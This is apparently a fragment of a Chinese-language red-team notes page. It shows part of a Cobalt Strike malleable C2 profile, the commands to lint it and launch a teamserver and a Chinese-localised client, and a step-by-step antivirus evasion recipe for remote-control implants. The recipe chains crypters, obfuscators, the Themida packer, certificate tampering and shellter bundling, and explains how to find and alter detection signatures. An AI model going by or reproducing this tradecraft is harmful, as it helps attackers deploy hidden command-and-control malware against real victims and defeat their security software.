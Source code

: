 ```
        output {
            print;
        }
    }
}
 
http-get {
    set uri "/updates";
 
    client {
        metadata {
            netbiosu;
            prepend "user=";
            header "Cookie";
        }
    }
 
    server {
        header "Content-Type" "text/plain";
 
        output {
            base64;
            print;
        }
    }
}
```

3.验证c2lint，启动服务端，载入汉化运行
```
./c2lint C2.profile
./teamserver ip:prot ./C2.profile 
java -Dfile.encoding=UTF-8 -javaagent:CobaltStrikeCN.jar -XX:ParallelGCThreads=4 -XX:+AggressiveHeap -XX:+UseParallelGC  -jar cobaltstrike.jar
```

##### 免杀远控整理（来自Tide团队)
![](https://github.com/QChiLan/BypassAntiVirus/raw/master/images/0.png)
项目地址:https://github.com/QChiLan/BypassAntiVirus

###### windows下的免杀生成（顺序从上到下依次混淆）
如果需要捆绑正常软件运行使用shellter，如不能过免杀，再分步测试以下操作。cs文件编码混淆用AVIATOR生成。测试可以再用python再当前目录打开一个web服务器: 

     python3 -m http.server 8080

1.Lime-Crypter 注入线程
2.DeepSeaOBFuscator 封装
3.CryptoObfuscator 混淆
4.https 证书修改
5.base64prionx 混淆
6.themida 加壳
7.https 证书修改
8.viper(在线msf处理平台可加特征和签名很方便)
*通用免杀法（简单概括就是1.修改特征码2.花指令免杀3.加壳免杀。Veil也可以当做前期编码处理）
也可以通过把软件分块用杀软重复扫描找到特征码进行修改,当然也可以通过加载器的形式更加靠谱但是需要落地多个文件，c#文件自己封装推荐avator+掩盖日可以过火绒
